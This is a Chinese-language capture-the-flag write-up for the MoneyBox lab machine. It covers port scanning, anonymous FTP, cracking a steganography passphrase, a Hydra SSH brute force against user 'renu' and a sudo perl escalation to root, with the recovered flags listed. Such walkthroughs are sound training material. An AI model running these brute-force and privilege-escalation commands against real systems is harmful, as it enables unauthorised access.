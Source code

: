 ## MoenyBox渗透测试过程

> 靶机IP：`192.168.56.120`

### 端口扫描

```bash
nmap -Pn -sV -sC 192.168.56.120
```

```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0         1093656 Feb 26  2021 trytofind.jpg
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.56.101
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 1e:30:ce:72:81:e0:a2:3d:5c:28:88:8b:12:ac:fa:ac (RSA)
|   256 01:9d:fa:fb:f2:06:37:c0:12:fc:01:8b:24:8f:53:ae (ECDSA)
|_  256 2f:34:b3:d0:74:b4:7f:8d:17:d2:37:b1:2e:32:f7:eb (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: MoneyBox
MAC Address: 08:00:27:44:2E:1D (Oracle VirtualBox virtual NIC)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

ftp服务是可以`Anonymous`登陆的

```bash
ftp 192.168.56.120
Connected to 192.168.56.120.
220 (vsFTPd 3.0.3)
Name (192.168.56.120:root): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||54909|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0         1093656 Feb 26  2021 trytofind.jpg
226 Directory send OK.
ftp> get trytofind.jpg
```

给了一图片，猜测可能有隐写

尝试使用steghide

```bash
steghide info trytofind.jpg                      
"trytofind.jpg":
  format: jpeg
  capacity: 64.2 KB
Try to get information about embedded data ? (y/n) y
Enter passphrase: 
steghide: could not extract any data with that passphrase!
```

发现密码不正确，尝试爆破

```bash
┌──(root㉿kali)-[/home/kali/MoneyBox]
└─# time stegseek trytofind.jpg /usr/share/wordlists/rockyou.txt
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Progress: 99.62% (132.9 MB)           
[!] error: Could not find a valid passphrase.

real    5.17s
user    6.89s
sys     2.95s
cpu     190%
```

爆破不出来

### 目录扫描

```bash
┌──(root㉿kali)-[/home/kali/MoneyBox]
└─# dirsearch -u http://192.168.56.120/
[04:05:21] 301 -  316B  - /blogs  ->  http://192.168.56.120/blogs/
```

访问该目录，发现以下内容

```bash
curl http://192.168.56.120/blogs/
```

```html
<html>
<head><title>MoneyBox</title></head>
<body>
    <h1>I'm T0m-H4ck3r</h1><br>
        <p>I Already Hacked This Box and Informed.But They didn't Do any Security configuration</p>
        <p>If You Want Hint For Next Step......?<p>
</body>
</html>

<!--the hint is the another secret directory is S3cr3t-T3xt-->
```

接着访问`S3cr3t-T3xt`目录

```bash
curl http://192.168.56.120/S3cr3t-T3xt/
```

```html
<html>
<head><title>MoneyBox</title></head>
<body>
    <h1>There is Nothing In this Page.........</h1>
</body>
</html>
<!..Secret Key 3xtr4ctd4t4 >
```

得到key：`3xtr4ctd4t4`

### steghide分离文件

尝试分离图片中的内容

```bash
┌──(root㉿kali)-[/home/kali/MoneyBox]
└─# steghide extract -sf trytofind.jpg -p 3xtr4ctd4t4
wrote extracted data to "data.txt".
```

查看内容

```
Hello.....  renu

      I tell you something Important.Your Password is too Week So Change Your Password
Don't Underestimate it.......
```

得到一个名字`renu`，并且她的密码是弱密码，尝试SSH爆破

### SSH爆破和登录

```bash
hydra -l renu -P /usr/share/seclists/Passwords/2023-200_most_used_passwords.txt ssh://192.168.56.120
```

```
[22][ssh] host: 192.168.56.120   login: renu   password: 987654321
```

得到user1.txt

```bash
renu@MoneyBox:~$ cat user1.txt         
Yes...!                                                  
You Got it User1 Flag
 ==> us3r1{F14g:0ku74tbd3777y4
```

进入lily的家目录，得到user2.txt

```
renu@MoneyBox:/home/lily$ cat user2.txt                                                  
Yeah.....                                                          
You Got a User2 Flag
==> us3r{F14g:tr5827r5wu6nklao}
```

发现lily的`.ssh`目录存在renu的公钥

```bash
renu@MoneyBox:/home/lily/.ssh$ cat authorized_keys 
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDRIE9tEEbTL0A+7n+od9tCjASYAWY0XBqcqzyqb2qsNsJnBm8cBMCBNSktugtos9HY9hzSInkOzDn3RitZJXuemXCasOsM6gBctu5GDuL882dFgz962O9TvdF7JJm82eIiVrsS8YCVQq43migWs6HXJu+BNrVbcf+xq36biziQaVBy+vGbiCPpN0JTrtG449NdNZcl0FDmlm2Y6nlH42zM5hCC0HQJiBymc/I37G09VtUsaCpjiKaxZanglyb2+WLSxmJfr+EhGnWOpQv91hexXd7IdlK6hhUOff5yNxlvIVzG2VEbugtJXukMSLWk2FhnEdDLqCCHXY+1V+XEB9F3 renu@debian
```

登录到lily

```bash
renu@MoneyBox:~$ ssh lily@0
```

### perl提权

lily可以无密码使用`perl`

```bash
lily@MoneyBox:~$ sudo -l
Matching Defaults entries for lily on MoneyBox:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User lily may run the following commands on MoneyBox:
    (ALL : ALL) NOPASSWD: /usr/bin/perl
```

```bash
sudo perl -e 'exec "/bin/bash" '
```

得到root权限

```
root@MoneyBox:~# cat .root.txt 

Congratulations.......!

You Successfully completed MoneyBox

Finally The Root Flag
    ==> r00t{H4ckth3p14n3t}

I'm Kirthik-KarvendhanT
    It's My First CTF Box
         
instagram : ____kirthik____

See You Back....
```

### 总结

> 1.steghide分离文件 `steghide extract -sf 图片 -p 密码`
>
> 2.stegseek爆破 `time stegseek trytofind.jpg /usr/share/wordlists/rockyou.txt`
>
> 3.perl提权 `sudo perl -e 'exec "/bin/bash" '`
